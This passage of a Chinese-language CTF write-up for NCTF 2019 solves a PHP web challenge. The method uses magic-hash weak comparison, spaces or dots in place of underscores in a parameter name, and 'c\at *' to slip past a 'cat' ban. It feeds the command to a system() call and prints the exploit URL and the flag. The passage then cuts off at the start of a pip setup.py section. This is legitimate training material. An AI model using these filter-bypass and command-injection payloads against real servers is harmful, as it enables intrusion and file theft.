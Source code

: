 ```php
} 
```

strtr函数后面的字符串，可以对应地去替换。也就是说，c替换为0，x替换为1，...

str1=2120624&str2=240610708&q%20w%20q=c\at%20*

md51 = 0e85776838554cc1775842c212686416  

md52 = 0e462097431906509019562988736854

这里用到的知识为：php弱类型判断时，MD5以0e开头，并且后面全部都是0-9的数字，才可以相等。如果有字母是不可以的！

第三个

```php
//3rd
$query = $_SERVER['QUERY_STRING'];
if (strlen($cmd) > 8){
    die("too long :(");
}

if( substr_count($query, '_') === 0 && substr_count($query, '%5f') === 0 ){
    $arr = explode(' ', $cmd);
    if($arr[0] !== 'ls' || $arr[0] !== 'pwd'){
        if(substr_count($cmd, 'cat') === 0){
            system($cmd);
        }
        else{
            die('ban cat :) ');
        }
    }
    else{
        die('bad guy!');
    }
}
else{
    die('nonono _ is bad');
} 
```

php会把空格或者点（.）自动替换成下划线，可以用来绕过。  

cat命令，直接`cat *`可以打印当前目录下全部文件。  

`http://nctf2019.x1ct34m.com:60005/?num=23333%0a&str1=2120624&str2=240610708&q.w.q=c\at *`

得到flag`NCTF{t3is_So_siiimpppllleeee_to_u}`

## Misc

### pip install

从官网上下载完整的包文件来查看。  

审计到setup.py时，发现了这样的代码：  
